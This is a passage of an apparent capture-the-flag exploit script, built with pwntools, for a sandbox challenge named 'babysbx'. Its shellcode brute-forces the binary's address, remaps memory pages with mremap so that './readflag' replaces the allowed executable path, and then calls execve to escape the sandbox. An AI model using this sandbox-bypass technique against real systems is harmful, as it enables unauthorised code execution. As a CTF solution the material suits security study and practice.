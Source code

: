 ```python
    // 2. find binary address (nanosleep bruteforce)
    sub rdi, 0x1000
    xor eax, eax
    mov al, 35
    syscall
    cmp al, 0
    jne loop

    // 3. mremap(ro_data, 0x1000, 0x2000, MREMAP_FIXED | MREMAP_MAYMOVE, 0xc0df000);
    sub rdi, 0x2c00
    mov rsi, 0x1000
    mov rdx, 0x2000
    mov r10, 3
    mov r8, 0xc0df000
    mov rax, 25
    syscall

    // 4. push command in bss
    add rdi, 0x2060
    mov rsp, rdi
    mov rdi, 0x6761
    push rdi
    mov rdi, 0x6c66646165722f2e
    push rdi
    mov rdi, rsp
    sub rdi, 0x50

    // 5. mremap(bss, 0x1000, 0x1000, MREMAP_FIXED | MREMAP_MAYMOVE, ro_data)
    mov rsi, 0x1000
    mov rdx, 0x1000
    mov r10, 3
    mov r8, rdi
    sub r8, 0x2000
    mov rax, 25
    syscall

    // 6. execve(ALLOWED_EXE, 0, 0);
    sub rdi, 0x2000
    add rdi, 0x50
    mov rsi, 0
    mov rdx, 0
    mov rax, 59
    syscall

'''
code = asm(shell)
p = process('./babysbx', aslr=1)
p.sendlineafter(b": ", (code).ljust(0xFD7, b'\x00'))

p.interactive()
```
